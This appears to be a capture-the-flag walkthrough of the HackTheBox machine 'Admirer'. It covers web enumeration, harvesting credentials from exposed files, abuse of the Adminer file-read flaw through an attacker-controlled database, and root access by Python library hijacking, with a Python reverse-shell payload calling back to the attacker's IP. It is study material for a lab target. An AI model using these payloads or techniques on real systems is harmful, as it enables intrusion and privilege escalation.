



## Reconnaissance

### nmap 

```
nmap -sC -sV -oN light 10.129.230.20
```


### Web Service 


> Check robots.txt 


> Check admin-dir path


### Gobuster 

```
gobuster dir -u http://10.129.229.101 -w /usr/share/wordlists/dirb/common.txt -o web.out
```


```
gobuster dir -u http://10.129.229.101 -w /usr/share/wordlists/dirbuster/direcotry-list-2.3-medium.txt -o web2.out
```


> Follow the result, and check them in browser.
> Most of them are not able to access without permission (403 Forbidden)


> keep enumeration the path under /admin-dir

```
gobuster dir -u http://10.129.229.101/admin-dir -w /usr/share/wordlists/dirb/common.txt -o web5.out
```


```
gobuster dir -u http://10.129.229.101/admin-dir -w /usr/share/wordlists/dirbuster/direcotry-list-2.3-medium.txt -o web2.out
```


> Access contacts.txt 
> Record the user in here, but I don't have password


> After a while, I just noticed the gobuster finished and I found another file - credentials.txt


> Access it, there are some password, include ftp and wordpress


### FTP 

> With the credential, I can login to FTP 


> Find some file
> Download them


> Decompress the file,
> there is a web directory.


> Check these file, I found a credential in index.php 

```
waldo / ]F7jLHw:*G>UPrTo}~A"d6b
```


> Check the directory utility-scripts


> Found the other credential which is same user -waldo

```
waldo / Wh3r3_1s_w4ld0?

```


> Try to access admin_tasks.php
> With the code review, I know it will execute some command 
> So, I tried the command injection, but failed.


> Enumerate the other php file, only db_admin.php can't find
### Gobuster scan utility-scripts

> With  faild operation, I think I should find out why db_admin.php can't be found.
> So, I start to enumerate the path again, 
> with trying several wordlist, I find a interest path - adminer.php in  wordlist: raft-large-words.txt

```
gobuster dir -u http://10.129.229.101/admin-dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt -o web8.out
```


> Access adminer.php, it's a login page.
> I tried the following credentials but all fail

```
waldo / Wh3r3_1s_w4ld0?
waldo / ]F7jLHw:*G>UPrTo}~A"d6b
```


### Research for adminer 

> It seems a framework which related or similar to phpmyadmin
> It is related to DB, user can control DB by this service


- [Adminer](https://www.adminer.org/)
- [Adminer羽量級MySQL資料庫管理工具，可完全取代phpMyAdmin，且無檔案匯入大小限制](https://www.minwt.com/website/server/18404.html)

> Find exploit code 
> A lot of search results show there is a file disclose vulnerability
> but according to the description, it seems need to use the SQL command after login.

- [Adminer 4.6.2 file disclosure vulnerability](https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/)



- [Exploiting Adminer's file read vulnerability with LOCAL DATA](https://podalirius.net/en/articles/writing-an-exploit-for-adminer-4.6.2-arbitrary-file-read-vulnerability/)


> With above link, there is a interesting description in other researcher's exploitation path

```
In order to exploit this vulnerability, an attacker needs to access the login page of Adminer and connect back to a remote MySQL database he controls
```

- [Serious Vulnerability Discovered in Adminer database Administration Tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)


- [(GITHUB)CVE-2021-43008 - AdminerRead](https://github.com/p0dalirius/CVE-2021-43008-AdminerRead)

> So I need to figure out how to let the adminer connect to my DB host.
> I start mariadb first 

```
systemctl start mariadb.service
```


> Check network status, mysql is running 


> And change the DB credential (root password)

```
sudo mysql_secure_installation
```

- [How to Allow Remote Access to MariaDB in Ubuntu Linux](https://geekrewind.com/allow-remote-access-to-mariadb-database-server-on-ubuntu-18-04/)


```
mysql_secure_installation
```


> According to the article, I need to modify MariaDB configuration file.

```
vim /etc/mysql/mariadb.conf.d/50-server.cnf
```


> Then login in my kali local


> Following the article again
> Access from Remote Client by following command 

```
GRANT ALL ON database_name.* TO 'database_user@192.168.1.2' IDENTIFIED BY 'database_user_password'
```


## Exploit 


> Check current databases

```
show databases;
```


> Since I know the target databases,  I can try to create that database in my host like below.

```
CREATE DATABASE adminerdb
```


> Check database 

```
show database;
```


> Besides that, I also need to create the user and grant the permission

```
GRANT ALL PRIVILEGES ON admirerdb.* TO 'waldo'@'10.129.230.20' IDENTIFIED BY ']F7jLHw:*G>UPrTo}~A"d6b';
```


> Check the user 

```
select user, host from mysql.user
```


> Refresh privileges

```
flush privileges;
```


> Then back to adminer page 
> Login like following


```
10.10.17.145
waldo 
]F7jLHw:*G>UPrTo}~A"d6b
adminerdb
```


> after login, I can follow the instruction from exploit article to do the directory traversal
> I tried to read /etc/passwd, but it failed (it might caused by permission)
> Then I read some page I have found in ftp --> index.php
> and I found that the password in this page is different from I found in ftp

```
waldo / &<h5b~yK3F#{PaPB&dA}{H>
```


> I login ssh with this credentials 


> Find user flag


### Privilege Escalation 

> Check current user 


> Check sudo permission 
> I have full permission to execute /opt/scripts/admin_tasks.sh


> Check this shell script 


> It point to the other python file --> backup.py
> And this python script will import a library --> shutil
> So I think I can do the python path hijacking to make it execute the fake library


> I need to create the malicious file first 
> After several testing, the following one will work

```
import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.17.145",1336))

os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")

```


> Check python environment 


> Set up python path and check environment again

```
export PYTHONPATH=/tmp
```


> Or execute the shell script with set up 

```
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
```


> Check nc listener 


> Check current user 


> Get root flag


## Reference 

- [Discussion](https://forum.hackthebox.com/t/admirer/2653)
- [Writeup - 1](https://faisalfs10x.github.io/htb/htbAdmirer#)
- [Writeup -2](https://0xdf.gitlab.io/2020/09/26/htb-admirer.html)
- [Writeup -3](https://www.secjuice.com/htb-admirer-walkthrough/)
### Adminer

- [(GITHUB)CVE-2021-43008 - AdminerRead](https://github.com/p0dalirius/CVE-2021-43008-AdminerRead)
- [Serious Vulnerability Discovered in Adminer database Administration Tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)
- [Exploiting Adminer's file read vulnerability with LOCAL DATA](https://podalirius.net/en/articles/writing-an-exploit-for-adminer-4.6.2-arbitrary-file-read-vulnerability/)
- [Adminer 4.6.2 file disclosure vulnerability](https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/)
- [Adminer](https://www.adminer.org/)
- [Adminer羽量級MySQL資料庫管理工具，可完全取代phpMyAdmin，且無檔案匯入大小限制](https://www.minwt.com/website/server/18404.html)
- [(ExploitDB)phpMyAdmin 4.8.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50457)
- [SOURCEFORGE Adminer安全漏洞（CVE-2021-43008)](https://avd.aliyun.com/detail?id=AVD-2021-43008)
### Mysql 

- [Configuring database connection results in Error: Host 'xxxxxxx' is not allowed to connect to this MySQL server](https://confluence.atlassian.com/jirakb/configuring-database-connection-results-in-error-host-xxxxxxx-is-not-allowed-to-connect-to-this-mysql-server-358908249.html)
- [How to Allow Remote Access to MariaDB in Ubuntu Linux](https://geekrewind.com/allow-remote-access-to-mariadb-database-server-on-ubuntu-18-04/)
#### Mysql Command 

- [Create and delete a MySQL database](https://gridscale.io/en/community/tutorials/mysql-datenbank-erstellen-loeschen/)
- [How To Remove or Delete a MySQL User Account](https://phoenixnap.com/kb/remove-delete-mysql-user)


### Python 

- [Privilege Escalation: Hijacking Python Library](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)
- [The initialization of the sys.path module search path¶](https://docs.python.org/3/library/sys_path_init.html)


###### tags: `HackTheBox`